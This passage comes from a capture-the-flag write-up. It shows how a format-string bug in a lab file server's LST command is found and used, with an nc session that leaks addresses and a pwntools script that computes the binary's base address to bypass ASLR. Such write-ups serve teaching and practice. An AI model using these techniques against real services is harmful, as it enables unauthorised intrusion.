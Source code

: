 ![](img/2023-07-02-15-41-43.png)

This usually indicates there are different "paths" the flow can take. Exploring the disassembly can help us to identify and try different commands since We needed to leak an address, as my regular routine with pwn challenges, if I cannot quickly perform Reverse engineering (like in this case, since the binary is in C++, this will probably taker some time), I will just try to look for something like a [format string](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/) bug, so after enumerating different commands I realize the _LST_ is vulnerable to format string, we can corroborate this by sending the command __LST %p-%p-%p__, and we'll observe hexadecimal values returned.

```
➜ nc 10.10.73.242 2121
LST %p-%p-%p
ERROR: Can not open Path: 73AA1B6E-3FEA4120-3FEA4120

```

The values above correspond to Addresses, and corroborating on the debugger, the second one is an address of the binary. We can use it to calculate the base address of the binary and defeat ASLR. At this point, we can use the following code to start interacting with the binary.


```python
#!/usr/bin/python3
from pwn import *

target = '10.10.72.141'
r = remote(target, 2121)

payload = b"LST %p-%p-%p-%p-%p"
r.sendline(payload)


r.recvuntil(b"ERROR: Can not open Path: ")
leaks = r.recvline().strip().split(b"-")
log.info(f"leaking {leaks}")
for i in range(len(leaks)):
    leaks[i] = int(leaks[i].decode(), 16)
log.info(f"binary leak = {hex(leaks[2])}")

filesrv = leaks[2] - 0x14120

log.info(f"base address = {hex(filesrv)}")
```
